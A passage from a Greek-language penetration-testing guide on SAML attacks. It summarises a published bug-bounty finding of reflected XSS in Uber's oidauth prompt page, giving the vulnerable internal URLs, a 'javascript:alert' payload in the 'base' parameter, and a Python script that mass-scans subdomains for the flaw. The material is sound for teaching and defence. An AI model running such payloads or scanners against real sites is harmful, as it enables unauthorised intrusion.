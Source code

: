 ```python
Args:
- saml_response: The SAML Response intercepted (in string format).
- sp_target_url: The URL of the SP-Target to which the SAML Response is redirected.

Returns:
- status: Success or failure message.
"""
# This is a simplified representation. In a real scenario, additional steps for handling the SAML Response would be required.
try:
# Code to send the SAML Response to SP-Target would go here
return "SAML Response successfully redirected to SP-Target."
except Exception as e:
return f"Failed to redirect SAML Response: {e}"
```
## XSS στη λειτουργία Αποσύνδεσης

Η αρχική έρευνα μπορεί να προσπελαστεί μέσω [αυτού του συνδέσμου](https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/).

Κατά τη διαδικασία της βίαιης αναγκαστικής πρόσβασης σε καταλόγους, ανακαλύφθηκε μια σελίδα αποσύνδεσης στη:
```
https://carbon-prototype.uberinternal.com:443/oidauth/logout
```
Κατά την πρόσβαση σε αυτόν τον σύνδεσμο, πραγματοποιήθηκε ανακατεύθυνση προς:
```
https://carbon-prototype.uberinternal.com/oidauth/prompt?base=https%3A%2F%2Fcarbon-prototype.uberinternal.com%3A443%2Foidauth&return_to=%2F%3Fopenid_c%3D1542156766.5%2FSnNQg%3D%3D&splash_disabled=1
```
Αυτό αποκάλυψε ότι η παράμετρος `base` δέχεται μια διεύθυνση URL. Λαμβάνοντας αυτό υπόψη, προέκυψε η ιδέα να αντικατασταθεί η διεύθυνση URL με `javascript:alert(123);` σε μια προσπάθεια να ξεκινήσει μια επίθεση XSS (Cross-Site Scripting).

### Μαζική Εκμετάλλευση

[Από αυτή την έρευνα](https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/):

Το εργαλείο [**SAMLExtractor**](https://github.com/fadyosman/SAMLExtractor) χρησιμοποιήθηκε για να αναλύσει υποτομείς του `uberinternal.com` για τομείς που χρησιμοποιούν την ίδια βιβλιοθήκη. Στη συνέχεια, αναπτύχθηκε ένα σενάριο για να στοχεύσει τη σελίδα `oidauth/prompt`. Αυτό το σενάριο δοκιμάζει για XSS (Cross-Site Scripting) εισάγοντας δεδομένα και ελέγχοντας αν αυτά ανακλώνται στην έξοδο. Σε περιπτώσεις όπου η είσοδος ανακλάται πράγματι, το σενάριο σηματοδοτεί τη σελίδα ως ευάλωτη.
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from colorama import init ,Fore, Back, Style
init()

with open("/home/fady/uberSAMLOIDAUTH") as urlList:
for url in urlList:
url2 = url.strip().split("oidauth")[0] + "oidauth/prompt?base=javascript%3Aalert(123)%3B%2F%2FFady&return_to=%2F%3Fopenid_c%3D1520758585.42StPDwQ%3D%3D&splash_disabled=1"
request = requests.get(url2, allow_redirects=True,verify=False)
doesit = Fore.RED + "no"
if ("Fady" in request.content):
doesit = Fore.GREEN + "yes"
print(Fore.WHITE + url2)
print(Fore.WHITE + "Len : " + str(len(request.content)) + "   Vulnerable : " + doesit)
```
## Αναφορές
